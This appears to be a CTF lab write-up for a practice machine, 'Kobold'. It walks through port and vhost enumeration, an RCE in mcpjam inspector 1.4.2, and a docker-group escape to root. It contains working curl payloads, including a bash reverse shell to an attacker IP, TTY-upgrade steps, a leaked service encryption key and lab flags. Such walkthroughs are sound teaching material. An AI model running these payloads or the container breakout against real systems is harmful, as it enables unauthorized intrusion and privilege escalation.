


## Enumeration
### Open ports
- 22/tcp (SSH)
- 80/tcp (HTTP) Kobold website redirect to https
- 443/tcp (HTTPS)
- 3552/tcp (HTTP) -> Arcane: A container management platform
### Vhosts
- kobold.htb
- bin.kobold.htb -> Private bin instance
- mcp.kobold.htb -> mcpjam inspector version 1.4.2 instance -> RCE
## Exploitation
### mcp.kobold.htb - RCE as ben
- RCE via mcpjam inspector version 1.4.2 (CVE-2026-23744)
#### Exploitation steps
1. Listen for incoming icmp packets
```bash
sudo tcpdump -i tun0 icmp
```
2. Create malicious payload to trigger RCE
```bash
curl https://mcp.kobold.htb/api/mcp/connect \
-k \
-H "Content-Type: application/json" \
-d '{
"serverConfig":{
"command":"/bin/bash",
"args":["-c","ping -c 4 10.10.14.199"],
"env":{}
},
"serverId":"test"
}'
```
3. Observe incoming icmp packets

We got a connection back from the target machine, which means we have RCE on the target machine.
4. Create reverse shell payload
```bash
curl https://mcp.kobold.htb/api/mcp/connect \
-k \
-H "Content-Type: application/json" \
-d '{
"serverConfig":{
"command":"/bin/bash",
"args":["-c","bash -i >& /dev/tcp/10.10.14.199/9001 0>&1"],
"env":{}
},
"serverId":"test"
}'
```
5. Listen for incoming reverse shell connection
```bash
nc -lvnp 9001
```
6. We got a reverse shell connection back from the target machine.

7. Upgrade to a fully interactive TTY shell using python3
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg
ENTER
ENTER
export TERM=xterm
```
# Target enumeration
- Logged in as ben
- User flag in ben's home directory
- We have Alice and root users on the system
- Ben is in the operator group, lets print what permissions the operator group has
```bash
getent group operator # We have alice and ben
getent group docker # We have alice
```
- Operator group has permissions over those files:
```bash
find / -group operator 2>/dev/null
/privatebin-data
/privatebin-data/certs
/privatebin-data/certs/key.pem
/privatebin-data/certs/cert.pem
/privatebin-data/data
/privatebin-data/data/purge_limiter.php
/privatebin-data/data/bd
/privatebin-data/data/bd/b5
/privatebin-data/data/.htaccess
/privatebin-data/data/e3
/privatebin-data/data/traffic_limiter.php
/privatebin-data/data/salt.php
```
## Listening ports:
```bash
ben@kobold:~$ ss -tnlp
State         Recv-Q        Send-Q               Local Address:Port                Peer Address:Port       Process
LISTEN        0             4096                     127.0.0.1:8080                     0.0.0.0:* -> Private bin instance
LISTEN        0             4096                     127.0.0.1:41193                    0.0.0.0:* -> HTTP ???
LISTEN        0             4096                    127.0.0.54:53                       0.0.0.0:* -> Internal DNS resolver
LISTEN        0             511                      127.0.0.1:6274                     0.0.0.0:* -> node is running the mcpjam inspector
LISTEN        0             511                        0.0.0.0:80                       0.0.0.0:* -> Default static website
LISTEN        0             4096                       0.0.0.0:22                       0.0.0.0:* -> Openssh port
LISTEN        0             4096                 127.0.0.53%lo:53                       0.0.0.0:* -> Internal DNS resolver
LISTEN        0             511                        0.0.0.0:443                      0.0.0.0:* -> Default static website
LISTEN        0             4096                             *:3552                           *:* -> Arcane instance
LISTEN        0             4096                          [::]:22                          [::]:* -> Openssh port
```
## Sensitive data:
Environment variable inside sytemd service file for Arcane:
```bash
ben@kobold:~$ cat /etc/systemd/system/arcane.service
[Unit]
Description=Arcane Service
After=network.target

[Service]
Type=simple
Environment=ENCRYPTION_KEY="Q3PbC9fpq/tPZ2waXI9+grmc8ualF7ITF5izX5rsk+E="
ExecStart=/root/arcane_linux_amd64
Restart=on-failure
User=root
WorkingDirectory=/root
```
- We have the encryption key for Arcane, which is running as root.
-> Rabbit hole here.
## Privatebin path traversal
```bash
for URL in $(
    curl -k --silent --header 'Accept: application/json' 'https://bin.kobold.htb/directory/api?top=100&version=1.7.7' | jq --raw-output '.[].url'
) $(
    curl -k --silent --header 'Accept: application/json' 'https://bin.kobold.htb/directory/api?top=100&version=1.7.8' | jq --raw-output '.[].url'
) $(
    curl -k --silent --header 'Accept: application/json' 'https://bin.kobold.htb/directory/api?top=100&version=2'     | jq --raw-output '.[].url'
)
do
    curl -k --silent "$URL" | grep -q 'id="template"' && echo "$URL uses template switcher"
done
```
-> Rabbit hole here, I couldn't find any vulnerabilities in the template switcher, but it was worth a try.
# Shell as Root
## Add us to the docker group
```bash
newgrp docker
```
- We can now run docker commands without sudo, which means we can run a container with a bind mount to the host filesystem and get the root flag.
```bash
ben@kobold:/privatebin-data/data$ docker run --rm -v /:/hostfs --entrypoint="" --user root privatebin/nginx-fpm-alpine:2.0.2 cat /hostfs/root/root.txt
63badcde00d1685c4c4ebb58ea353cd6
ben@kobold:/privatebin-data/data$
```
END !
